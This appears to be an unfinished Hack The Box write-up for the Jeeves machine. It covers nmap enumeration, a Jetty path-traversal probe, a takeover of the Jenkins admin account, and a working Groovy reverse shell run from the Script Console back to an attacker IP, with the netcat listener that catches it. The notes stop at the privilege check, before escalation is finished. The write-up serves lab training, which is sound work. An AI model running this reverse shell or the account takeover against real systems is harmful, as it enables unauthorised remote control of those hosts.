 ```yaml
---
date: 2024-10-03
title: Jeeves HTB Write-Up
machine_ip: 10.10.10.63
os: Windows
difficulty: Medium
my_rating: 3
tags:
  - Windows
  - PrivEsc
  - TokenImpersonation
  - whoami
references: "[[📦HTB Writeups]]"
---
```


# Enumeration

- Nmap
```
┌──(root㉿kali)-[~]
└─# nmap -A -p- -sVC 10.10.10.63 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-03 17:45 PDT
Nmap scan report for 10.10.10.63
Host is up (0.11s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|Phone|7 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (89%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Embedded Standard 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-10-04T05:48:39
|_  start_date: 2024-10-04T05:45:13
|_clock-skew: mean: 4h59m59s, deviation: 0s, median: 4h59m59s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE (using port 135/tcp)
HOP RTT       ADDRESS
1   102.90 ms 10.10.14.1
2   103.37 ms 10.10.10.63

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 220.01 seconds
```
- Taking a look at Jetty 9.4.z-SNAPSHOT and exploits relating, we find that there is a Information Disclosure vulnerability if the `GET /%2e%2e/WEB-INF/web.xml HTTP/1.` is specified in a get request, the encoded URI can access WEB-INF.
	- Rabbit hole... enumerating more

- Used `gobuster` to enumerate any directories in both `80` and `50000` ports. Port `80` had no additional, but port `50000` had:
```

```


# Foothold
- gain shell via exploit
- `http://10.10.10.63:50000/askjeeves/` shows a web portal
- In `People` tab we see `admin`. We can change their password. Changed admin creds to `admin:admin`
	- We are now Admin in Jenkins 2.87
- Found a `Script Console` we can potential exploit and get a reverse shell. After [researching](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6), found [`revshell.groovy`](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) which can give us a reverse shell into Jenkins:
```
String host="10.10.14.6";

int port=4444;

String cmd="cmd.exe";

Process p=new 
ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream 
pi=p.getInputStream()
pe=p.getErrorStream()
si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());
while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());so.flush();po.flush();
Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

- Caught a shell
```
┌──(root㉿kali)-[~/Downloads]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.63] 49677
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke
```

- Working on getting `JuicyPotato` to transfer over so I can escalate privileges...
- ==Resume==
# PrivEsc
- escalate from user to root
- We have `SeImpersonatePrivilege` enabled on the user `jeeves\kohsuke`... Let's see if we can impersonate
```
C:\Users\Administrator\.jenkins>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

